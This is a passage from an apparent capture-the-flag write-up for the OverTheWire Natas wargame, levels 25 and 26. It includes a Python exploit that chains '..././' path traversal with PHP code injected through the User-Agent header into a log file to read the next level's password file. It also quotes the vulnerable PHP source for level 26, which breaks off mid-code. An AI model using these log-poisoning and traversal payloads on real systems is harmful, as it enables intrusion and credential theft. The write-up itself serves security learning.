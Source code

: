 Upon viewing the logs, we notice that there is a `user-agent` field that is logged using this line of code `$_SERVER['HTTP_USER_AGENT']`. Perhaps, we can alter that to execute a php script?

```
import requests

username = "natas25"
password = "GHF6X7YwACaYYssHVY05cFq83hRktl4c"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/".format(username)

response = session.get(url, auth=(username, password))

# Trying to bypass the directory traversal
# response = session.post(
#     url, data={"lang": "..././..././..././..././..././etc/passwd"}, auth=(username, password))

# Viewing the logs
# session_id = session.cookies["PHPSESSID"]
# response = session.post(
#     url, data={"lang": "..././..././..././..././..././var/www/natas/natas25/logs/natas25_{}.log".format(session_id)}, auth=(username, password))

# Altering the User-Agent
session_id = session.cookies["PHPSESSID"]
header = {"User-Agent": "<?php system('cat /etc/natas_webpass/natas26'); ?>"}
response = session.post(
    url, data={"lang": "..././..././..././..././..././var/www/natas/natas25/logs/natas25_{}.log".format(session_id)}, auth=(username, password), headers=header)

content = response.text
print(content)
```

# Level 26

In this webpage, there is 4 inputs `X1 Y1 X2 Y2` which defines the coordinates of a line for the user to draw.

Upon clicking on the view source code, there is a php code within:

```
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla

    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }
```